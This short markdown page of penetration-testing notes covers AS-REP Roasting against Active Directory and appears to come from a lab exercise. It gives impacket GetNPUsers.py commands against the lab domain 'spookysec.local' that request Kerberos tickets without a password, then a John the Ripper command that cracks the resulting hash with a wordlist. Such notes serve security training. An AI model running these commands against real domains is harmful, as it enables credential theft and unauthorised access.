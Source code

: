 # 🦸 Exploitation

## ASREPRoasting



### Getting Kerberos Tickets

{% embed url="https://github.com/fortra/impacket" %}

#### GetNPUsers.py

```
python3 GetNPUsers.py
```

```
python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip <domain IP address>
```



### Crack Hashed Password

```
john hash.txt --wordlist=<Location of Wordlist>
```

